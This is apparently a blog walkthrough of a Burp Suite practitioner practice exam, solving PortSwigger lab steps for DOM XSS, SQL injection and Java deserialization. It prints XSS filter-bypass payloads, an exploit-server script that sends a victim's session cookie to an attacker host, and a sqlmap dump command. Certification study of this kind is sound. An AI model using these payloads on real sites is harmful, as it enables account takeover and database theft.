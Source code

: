 # Burp Suite Certified Practitioner Exam Preparation Walkthrough

```
---
toc: true
toc_label: "Table of Contents"
toc_icon: "cog"
toc_sticky: true
title: Burp Suite Certified Practitioner Exam Prep ! 
header: Burp Suite Certified Practitioner Exam Preparation Walkthrough
  image: /assets/images/post1/image.png
  teaser: /assets/images/post1/teaser.png

excerpt: "A unique line of text to describe this post that will display in an archive listing and meta description with SEO benefits."
---
```

### **EXAM PREP**

**1/3: XSS**

DOM XSS in lookup function :

When the app is launched we immediatly see the search bar, what I always try is for XSS. 
I use the “Untrusted types” on Chrome. 

I put something in search and click on “search”

![untrusted.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/untrusted.png)

By referring to DOM XSS labs on Portswigger, we see that there are 2 DOM XSS payloads who can work here : 

```jsx
\\"-alert(1)}//
or
"-alert(1)-"
```

XSS can be used to steal cookies of other users, then we need to try : 

```jsx
\\"-alert(document.cookie)}//
```

But no luck : 

![XSS blocked.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/XSS_blocked.png)

We need to find a bypass and I found on the internet that we can bypass it by using : 

```jsx
\\"-alert(window["document"]["cookie"])}//
```

![XSS Bypassed.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/XSS_Bypassed.png)

Now that we have the good payload we have to construct a payload with the exploit server link :

Add this code in exploit-server and 

```jsx
<script>

location='https://0a5800ae0314d4b3c09c3b3500dd000f.web-security-academy.net/?SearchTerm=%22-%28window%5B%22document%22%5D%5B%22location%22%5D%3D%22https%3A%2F%2Fexploit-0a6d00a40340d487c0a03af7016a000c%252eexploit-server%252enet%2F%2F%3F%22%2Bwindow%5B%22document%22%5D%5B%22cookie%22%5D%29-%22';

</script>
```

![Capture d’écran 2023-02-03 à 14.05.12.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/Capture_decran_2023-02-03_a_14.05.12.png)

We just have to replace the session cookie to have access to Carlos account. 

**2/3 SQL Injection**

We have access to a new feature : 

![AdvancedSearch.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/AdvancedSearch.png)

We see a parameter ⇒ sorted-by vulnerable to SQLi

![VulnParam.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/VulnParam.png)

I launched the sqlmap command below : 

```jsx
sqlmap -u "[https://0a5800ae0314d4b3c09c3b3500dd000f.web-security-academy.net/filtered_search?SearchTerm=&writer=&sort-by=DATE*](https://0a5800ae0314d4b3c09c3b3500dd000f.web-security-academy.net/filtered_search?SearchTerm=&writer=&sort-by=DATE*)" --cookie="_lab=46%7cMCwCFAuZTmvz13aVBBW1bpQM25dE2RVNAhRq8fmJk1vCl2i8uauGpq2N%2bIytqdEsQkFl0b%2b8pNzF%2f4p3No1yF19zA%2bj3GuVuecfTlUlSWFGu7SfWBmEz6Mu0JEWnJg5r4GggAibBFB9QtX0gMd%2fLhfFCfcTKNJtOaZ4mGvaUex6vw3k%3d; session=F8UksvHTO0lwQgGckaeEpePsgEJQTvs2" --dump
```

![SQLi result.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/SQLi_result.png)

Now time to visit admin-panel and see what’s the next bug ! 

**3/3** ****DESERIALIZATION:****

Using Burp Scanner we can see that admin_pref are vulnerable :

![Launch Scan.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/Launch_Scan.png)

![Burp Scan.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/Burp_Scan.png)

Using Deserialization Scanner plugin on Burp gave me these informations : 

![JavaDeserialization.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/JavaDeserialization.png)

Once the payload is generated and the request sent, we can go back to Burp Collaborator to see if we have a ping back : 

![Solution.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/Solution.png)

BINGO ! We have then finished the lab. 

I hope you enjoyed reading this article as much as I enjoyed writing it.
